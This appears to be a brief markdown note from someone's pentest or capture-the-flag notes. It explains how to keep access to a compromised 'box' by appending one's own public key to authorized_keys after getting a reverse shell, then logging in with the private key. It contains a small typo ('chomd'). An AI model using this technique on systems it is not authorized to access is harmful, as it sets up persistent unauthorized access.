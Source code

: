 # SSH_KEY_ON_BOX

dropping an SSH key and using SSH to access the box/machine

make a dir name - .ssh(in the home folder of box)
```bash
 mkdir .ssh
 vi authorized_keys #if the reverse shell is misbehaving can echo your key
 echo 'contents of .pub file' >> authorized_keys
```

****** drop/create an ssh key ******* (type the following command on your terminal)
```bash
 ssh-keygen -f <file name>  			   # (-i to use key)
 ls 

 cat <file name>                     # (it will be with the extention of .pub)
```
'paste the file contents on the box in **authorized_keys** file created earlier'
> *on our terminal*
```bash
 chomd 600 <file name>  # (this is the private key) 

 ssh -i <file name> user@<machine/box IP>

```

Note : 
1. Always make the file under the name of 'authorized_keys' on the box/machine or else it won't work.
2. Remember to give the correct permission number for execution.
3. If you place the private key i.e id_rsa in your .ssh dir you can login without -i switch 
<!-- https://phoenixnap.com/kb/ssh-permission-denied-publickey#:~:text=If%20you%20want%20to%20use,login%20in%20the%20sshd_config%20file.&text=In%20the%20file%2C%20find%20the,disable%20it%20by%20adding%20no%20. -->




